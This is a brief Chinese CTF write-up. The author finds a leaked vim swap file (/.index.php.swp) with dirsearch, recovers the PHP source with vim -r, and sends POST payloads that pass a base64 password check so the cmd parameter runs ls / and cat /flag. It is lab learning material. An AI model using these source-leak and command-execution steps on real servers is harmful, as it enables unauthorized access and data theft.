






vim联想到swp源码泄露

dirsearch扫描

 

 

直接访问/.index.php.swp

下载得到源码

放入kali

执行

Vim -r index.php.swp 修复vim文件

 

查看源码关键

 

 

post传参password和cmd

首先判断password传入的值是否和base64编码后的

 

是否相等

如果相等，执行cmd传入的命令

 

$password传入

 

构造payload：

password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=ls /

 

 

 

查看flag

构造payload：

password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=cat /flag

 

 

 